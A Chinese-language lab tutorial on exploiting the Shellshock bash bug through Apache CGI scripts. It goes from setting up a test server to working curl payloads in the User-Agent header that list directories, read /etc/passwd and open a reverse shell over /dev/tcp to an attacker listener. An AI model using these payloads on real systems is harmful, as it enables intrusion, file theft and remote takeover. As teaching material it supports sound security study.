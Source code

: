 # 攻击CGI程序

## CGI概念

CGI（common gateway interface）通用网关接口，该程序可以通过网页运行各种后台程序，如shell、python、c等，
apache默认是支持CGI的，但是需要配置一下，nginx默认不支持CGI，可以通过安装额外的插件来支持。

## apache环境搭建

```bash
sudo apt install apache2
sudo ln -s /etc/apache2/mods-available/cgid.conf /etc/apache2/mods-enabled/cgid.conf
sudo ln -s /etc/apache2/mods-available/cgid.load /etc/apache2/mods-enabled/cgid.load
sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
sudo /etc/init.d/apache2 restart
```

apache默认运行cgi程序的目录在/usr/lib/cgi-bin，我们在这个目录新建一个测试文件
```bash
sudo vi /usr/lib/cgi-bin/test.cgi
```

写入文件内容：
```bash
#!/bin/bash

echo "Content-type: text/plain"
echo 
echo
echo "Hello World"
```

给文件可执行权限
```bash
sudo chmod 755 test.cgi
```

最后通过浏览器访问该文件：  
http://192.168.0.11/cgi-bin/test.cgi  
显示如下结果则测试成功  
![测试cgi](../img/shellshock-cgitest.png)  

## web调用cgi的原理

![web调用cgi原理](../img/shellshock-cgiinvoke.png) 

!!! Note

    web向apache发送cgi请求时，Apache会调用fork()函数新建一个进程，然后使用exec()函数族中的某个
    函数在新进程中执行cgi程序。因为cgi程序以"#!/bin/bash"开头，因此该程序是一个shell脚本，实际
    执行的是/bin/bash

## 攻击入口原理

```bash
#!/bin/bash

echo "Content-type: text/plain"
echo 
echo
echo "** Environment Variables ***"
strings /proc/$$/environ
```
通过-v选项打印请求：
```bash
curl -v http://192.168.0.11/cgi-bin/test.cgi
```

可以修改User-Agent字段：
```bash
curl -A "test" -v http://192.168.0.11/cgi-bin/test.cgi
```

!!! Note

    这个实验说明，cgi进程会从远程用户那里获得HTTP_USER_AGENT，而这个值可以由用户传入，故只要用户
    带上这个值就可以进行攻击（还可以使用其他字段，如Referer等）

## 实施shellshock攻击

### 查看服务器目录

```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/ls -l" http://192.168.0.11/cgi-bin/test.cgi
```

![攻击查看服务器目录](../img/shellshock-cgiattack1.png) 

### 盗取密码

```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://192.168.0.11/cgi-bin/test.cgi
```

![盗取密码](../img/shellshock-cgiattack2.png)

!!! warning

    如何修改Content_type实现压缩web服务器的目录并发送到外部？

### 反向shell

!!! Note

    反向shell的目的是让shell程序把它的输入输出都交由远程计算机控制，关键在于重定向标准输入、
    输出和错误设备到一个网络连接。故实施时双方要建立一个tcp连接。

步骤：  
* 宿主机运行
```bash
nc -lv 9090
```

* 宿主机发动攻击
```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/172.16.200.201/9090 0<&1 2>&1" http://192.168.0.11/cgi-bin/test.cgi
```
> -i 进入可交互模式  
> 172.16.200.201是宿主机地址  
> 0<&1 0是标准输入设备，将标准输入用作标准输出，而输出已重定向到tcp连接，故是输入和输出都走tcp  
> 2>&1 2是标准错误，也走tcp  

在宿主机上获得了目标服务器的shell，cgi进程的用户id是www-data
![反向shell](../img/shellshock-cgiattack3.png)

